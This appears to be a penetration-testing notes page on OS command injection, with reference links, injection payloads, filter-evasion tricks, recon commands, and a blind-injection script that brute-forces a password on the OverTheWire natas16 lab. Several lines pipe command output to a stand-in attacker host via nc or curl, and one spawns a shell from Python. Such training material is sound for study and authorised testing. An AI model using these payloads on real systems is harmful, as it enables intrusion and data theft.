 # Command Injection

| [https://owasp.org/www-project-web-security-testing-guide/latest/4-Web\_Application\_Security\_Testing/07-Input\_Validation\_Testing/12-Testing\_for\_Command\_Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection) |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| [https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions](https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions)                                                                                                                                                             |
| [https://blog.0xffff.info/2021/07/28/os-command-injection-tutorial-part-1-basics-and-filter-evasion/](https://blog.0xffff.info/2021/07/28/os-command-injection-tutorial-part-1-basics-and-filter-evasion/)                                                                                                                                 |
| [https://www.hackerone.com/ethical-hacker/how-command-injections](https://www.hackerone.com/ethical-hacker/how-command-injections)                                                                                                                                                                                                         |
| [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)                                                                                                                                                                 |
| [https://github.com/carlospolop/Auto\_Wordlists/blob/main/wordlists/command\_injection.txt](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/command_injection.txt)                                                                                                                                                       |
| [https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)                                                                                                                                                                                                                     |
| [https://github.com/payloadbox/command-injection-payload-list](https://github.com/payloadbox/command-injection-payload-list)                                                                                                                                                                                                               |
| [https://en.wikipedia.org/wiki/Input\_Field\_Separators](https://en.wikipedia.org/wiki/Input_Field_Separators)                                                                                                                                                                                                                             |

It allows an attacker to execute operating system (OS) commands on the server that is running an application.

{% hint style="info" %}
On every request, always try to fuzz every parameter such as name, email, etc. putting `; & |` at the end and checking response.

If the command is limited (only git for example), research on **GTFOBins/LOLBas** ways to leverage.
{% endhint %}

## Basic payloads

{% code overflow="wrap" fullWidth="true" %}
```bash
######################### Useful commands
Purpose of command 	    Linux 	      Windows
Name of current user 	whoami 	      whoami
Operating system 	    uname -a 	  ver
Network configuration 	ifconfig 	  ipconfig /all
Network connections 	netstat -an   netstat -an
Running processes 	    ps -ef 	      tasklist 

######################### Injecting OS commands
https://insecure-website.com/stockStsatus?productID=381&storeID=29
# Function could be called out to a shell command
stockreport.pl 381 29
# If app has no defenses, we could submit the following input to execute an arbitrary command:
& echo aiwefwlguh &
#  If this input is submitted in the productID parameter, the command executed by the application is: 
stockreport.pl & echo aiwefwlguh & 29
# echo is useful for some types of command injection since it shows the output
# Placing & after the injected command is useful because it separates the injected command from whatever follows.

# To verify it works
id | nc $IP PORT
curl $IP:$PORT/whatever   and listen with nc -lvnp $PORT
;ping -c 2 $ATTACKER_IP
&&ipconfig
# Windows 
# How to detect environment (CMD or PS)
https://stackoverflow.com/users/4003407/user4003407
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
# Try first a possible innocent/whitelisted command
ipconfig;whoami
uptime;whoami
date;whoami
; sleep 5;
; ping -c/-n 2 $IP;
hexadecimal (\x2f\x65...)

# TEST FIRST IF WE CAN PING, FOR EXAMPLE:
; ping -c 2 $MYIP

From Kali --> tcpdump -i eth0/tun0 -n -v
# -n --> don't convert addresses to names
# -i ---> interface (usually eth0 or tun0 with VPN)

.*
$(command)
`command`
$IFS # field separator
export TEST=-  /// echo $TEST #--> it prints a dash to elude blacklists
```
{% endcode %}

{% hint style="info" %}
Try **sleep** 2 also as an alternative to ping to verify command injection
{% endhint %}

## Python Command Injection

```python
__import__('os').system('/bin/sh')
```

## Blind Command Injection

{% tabs %}
{% tab title="Overview" %}
Blind command injection occurs when the system call that's being made does not return the response of the call to the Document Object Model (or DOM).

```
ping
sleep/timeout
curl
Try redirects whoami>/var/www/html/test.txt
Check world-writable folders or any way to display those files
```

![](<../../.gitbook/assets/image (132).png>)

You can see in the above code that the response is never returned anywhere on the page. The only thing that gets returned is an alert that says whether a user was found on the system or not, but sometimes it won't be that easy. So here are a few ways to tell whether you have blind command injection or not.
{% endtab %}

{% tab title="Time delays" %}
Another way is `;sleep 5 (;sleep+5 w/ URL encode)` on every parameter

You can use an injected command that will trigger a time delay, allowing you to confirm that the command was executed based on the time that the application takes to respond. The `ping` command is an effective way to do this, as it lets you specify the number of ICMP packets to send, and therefore the time taken for the command to run:

Try ping commands from here [https://github.com/carlospolop/Auto\_Wordlists/blob/main/wordlists/command\_injection.txt](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/command_injection.txt)

Check different types of bypass on [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-a-line-return)
{% endtab %}

{% tab title="Script" %}
When we do not have a visible answer from the server, we can try to use the command (sleep 10) to check if the response is delayed 10 seconds. If so, we can continue injecting commands.

In the case of brute-forcing a password, we can use this approach with grep:

{% code overflow="wrap" %}
```bash
grep -E $REGULAR_EXPRESSION $FILE # regex like '^a*' (starting with a and sth else)
```
{% endcode %}

{% code overflow="wrap" %}
```python
#/usr/bin/python3

# BLIND COMMAND INJECTION

import requests, sys
from string import ascii_lowercase, ascii_uppercase, digits

url = 'http://natas16.natas.labs.overthewire.org/'

# GENERATE CHARSET
charset = ascii_lowercase + ascii_uppercase + digits

# AUTHENTICATION
s = requests.Session()
s.auth = ('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')

password = ''

while len(password) < 32:
        for char in charset:
                payload = {'needle': '$(grep -E ^%s.* /etc/natas_webpass/natas17)' % (password + char)}
                r = s.get('http://natas16.natas.labs.overthewire.org/index.php', params=payload)

                if len(r.text) == 1105:
                        password += char
                        sys.stdout.write(char)
                        sys.stdout.flush()
                        break
#               print(len(r.content)) # at first to check the size of the response, if it's smaller means the char was correct 

```
{% endcode %}
{% endtab %}

{% tab title="Ping!" %}
If you send a ping with 10 ICMP packets, the page should be loading for about 10 seconds.  If you send 20(!) packets, it should take about 20 seconds, and so on.
{% endtab %}

{% tab title="Output Redirection" %}
Redirect the output of a command to a file, then, using the browser, navigate to the page where the file is stored.  We all know the > Bash operator redirects output to a file or process so you could try redirecting the output of `id`, `whoami`, `netstat`, `ip addr` or other useful command to see if you can see the results.
{% endtab %}

{% tab title="Netcat Bypass" %}
`root; ls -la | nc {VPN_IP} {PORT}` . This will send the output of `ls -la` to your netcat listener.
{% endtab %}
{% endtabs %}

## Active Command Injection

![](<../../.gitbook/assets/image (71).png>)

&#x20;The program goes into a try block to execute the function `passthru($command_string)`.  You can read the docs on `passthru()` on [PHP's website](https://www.php.net/manual/en/function.passthru.php), but in general, it is executing what gets entered into the input then passing the output directly back to the browser.

```
whoami
id
ifconfig
ip addr
uname -a
ps -ef

whoami
ver
ipconfig
tasklist
netstat -an
```
